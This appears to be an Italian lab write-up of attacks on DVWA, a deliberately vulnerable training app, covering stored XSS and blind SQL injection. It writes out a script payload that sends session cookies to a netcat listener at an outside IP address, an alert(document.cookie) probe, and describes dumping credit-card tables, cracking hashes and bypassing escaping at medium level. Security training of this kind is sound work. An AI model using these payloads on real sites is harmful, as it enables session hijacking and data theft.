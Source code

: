 IMMAGINI DA 01 A 04 RELATIVE A XSS STORED

IMMAGINI DA 05 A 14 RELATIVE A SQLi (Blind)

# 01 
Nel XSS stored abbiamo trovato una limitazione, ovvero la lunghezza massima del messaggio, impostata a 50 caratteri
# 02 
Il file è facilmente modificabile, portando il tutto a 500 caratteri, per poter inserire lo script seguente: <script>window.location="http://192.168.50.100:6600/?cookie"+document.cookie</script>
# 03 
Con netcat in modalità listen sulla porta 6600, effettuiamo un accesso sulla pagina xss stored, per poter catturare i cookie di sessione.
# 04 
Se proviamo ad accedere alla pagina xss stored senza il nostro server in ascolto, giustamente, ci dice che non può stabilire una connessione. 
N.B. TUTTO QUESTO FUNZIONA ANCHE CON SECURITY LEVEL IMPOSTATO A MEDIUM, LO SI PUO' VEDERE NELLO SCREEN 15

# 05 
Attraverso la query visibile nel campo ID recuperiamo tutte le tabelle presenti sul server.
# 06
Attraverso la query visibile nel campo ID recuperiamo le colonne della tabella users, ovvero quella che ci interessa per recuperare le password.
# 07
Attraverso la query visibile nel campo ID recuperiamo i record degli attributi user e password. Purtroppo, le password sono cifrate. Successivamente le andremo a decifrare. Continuiamo a cercare altri dati sensibili.
# 08 
Cerchiamo i nomi di tutti i database presenti sul server, per poter trovare materiale sensibile presente in altri database, e non solo in DVWA. La tabella credit_cards nel database OWASP10 ci salta subito all'occhio.
# 09
Attraverso la query visibile nel campo ID recuperiamo il nome delle colonne della tabella credit_cards.
# 10/11 
Troviamo i dati relativi alle carte di credito degli utenti, tra cui numero carta, ccv e data di scadenza. Da qui è facilmente intuibile che tutti i dati all'interno di questo server sono stati compromessi.
# 12
Grazie a john the ripper, decodifichiamo le password precedentemente trovate.
# 13
Possiamo notare che anche la pagina SQLi (blind) è facilmente attaccabile con un attacco xss, usando uno script che facilmente ci permette di avere i cookie di sessione. Basta mettere un valore valido, come ad esempio 1, 
come si può vedere nell'immagine, e successivamente inserire uno script come il seguente : 1<script>alert(document.cookie)</script>
# 14 
Attraverso la query visibile nel campo ID riusciamo a crackare le passworda anche con security level impostato su medium, in quanto, come è possibile vedere dal codice sorgente, $id = mysql_real_escape_string($id) fa la sanitizzazione dei caratteri speciali. 
togliendo le virgolette alte, la query passa e dà in output comunque user e password.
